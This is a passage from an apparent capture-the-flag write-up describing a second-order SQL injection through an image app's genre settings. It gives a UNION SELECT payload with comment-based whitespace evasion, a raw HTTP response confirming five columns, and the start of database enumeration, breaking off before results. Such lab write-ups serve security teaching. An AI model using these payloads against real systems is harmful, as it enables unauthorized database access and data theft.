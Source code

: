 With my genres set to that, “Your Feed” populates with images of genre animal, architecture, feed, nature, etc. This is successful injection, and it’s a second-order SQL injection because the query to one page that sets the injection is then manifested on another page when viewed.

#### Number of Columns

To do a UNION injection, I’ll need to know the number of columns naturally returned from the query so I can UNION on that same number of columns of data to leak.

I’ll see from the data returned above that each image has at least six things returned (`id`, `file`, `genre`, `created_at`, `udpated_at`, and `url`), through `url` could be generated from `file`, so maybe only five items. I’ll try five like this: `')/**/UNION/**/SELECT/**/1,2,3,4,5#`.

In Repeater, I’ll request the feed, and it returns exactly what I’m hoping for:

```

HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Content-Type: application/json
Connection: close
Cache-Control: no-cache, private
Date: Thu, 14 Sep 2023 19:27:29 GMT
X-RateLimit-Limit: 3600
X-RateLimit-Remaining: 3594
Access-Control-Allow-Origin: *
X-Frame-Options: SAMEORIGIN
X-XSS-Protection: 1; mode=block
X-Content-Type-Options: nosniff
Content-Length: 168

{
  "status":"success",
  "data":[
    {
      "id":1,
      "file":"2",
      "genre":"3",
      "created_at":"1970-01-01T00:00:04.000000Z",
      "updated_at":"1970-01-01T00:00:05.000000Z",
      "url":"\/storage\/2"
    }
  ]
}

```

The input numbers one through five are in each of these columns, and the `url` is built from the `file` (as guessed).

#### Database Enumeration

Now I can use that template to make queries into the database. Where I have “2” and “3” are the only things that can take strings, so I’ll focus there. If I replace “2” with “user()” and “3” with “database()”, it shows the results:
